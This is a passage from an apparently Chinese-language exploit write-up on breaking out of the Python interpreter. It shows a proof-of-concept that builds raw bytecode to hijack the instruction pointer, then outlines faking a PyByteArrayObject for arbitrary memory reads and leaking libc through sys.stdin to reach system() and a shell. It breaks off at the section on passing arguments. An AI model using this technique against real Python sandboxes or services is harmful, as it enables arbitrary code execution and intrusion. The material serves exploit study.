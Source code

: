 ```text
return somefunction
extended_arg = get_opcode('EXTENDED_ARG')
load_const = get_opcode('LOAD_CONST')
call_function = get_opcode('CALL_FUNCTION')
load_fast = get_opcode('LOAD_FAST')
code = get_code(
extended_arg +
p16(offset >> 16) +
load_const +
p16(offset & 0xffff) +
call_function +
p16(0),
consts
)
#raw_input()
code()
```

这个poc稍微显得有点乱，但是基本能够表达清楚思路。主要是有一些偏移量的计算不太好算，所以我采用了动态调试的方法，直接看内存结构，然后相减得到的偏移，看起来虽然乱了，但是却是计算偏移最简单的方法，偏移量其实很多时候不是很好静态计算，可能有一些你没想到的细节，如果动态去调着看的话，就一定是正确的偏移了。

运行这个POC，我们可以使rip指向0xdeadbeef了。

3.从POC到EXP，任意执行到shell

其实到这，剩下的步骤虽然还有一些，但是思路上已经全部清晰了，我们可以执行任意代码，现在需要的是：

i.找到system的地址；

ii.传入参数。

1\)任意读

根据之前的讨论，我们知道了我们可以随意更改字节码，执行任意字节码，那么想要构造一个新的object也不是难事。想要读取信息，就需要一个指针，而Python有指针的地方实在是太多了。

我们采取的方法是使用ByteArrayObject，ByteArrayObject代码如下：

```text
typedef struct {
PyObject_VAR_HEAD
 /* XXX(nnorwitz): should ob_exports be Py_ssize_t? */
 int ob_exports; /* how many buffer exports */
Py_ssize_t ob_alloc; /* How many bytes allocated */
 char *ob_bytes; /* 重点！一个可以读的指针 */
} PyByteArrayObject;
```

所以，想要任意读，伪造一个BYteArrayObject，伪造方法和之前一样，然后直接读就可以了，好了，现在的问题只剩下，读哪儿？

2\)system地址

想要找到system的地址，就需要libc地址，libc地址其实还花了我一些时间，不过最终用到一个方法：

sys.stdin的f\_fp字段存有\_IO\_2\_1\_stdin的地址，这个地址是位于libc data段的，可以利用这个去拿到libc地址，最终拿到system地址，读取方法就根据上一节的PyByteArrayObject的方法就可以。

3\)参数
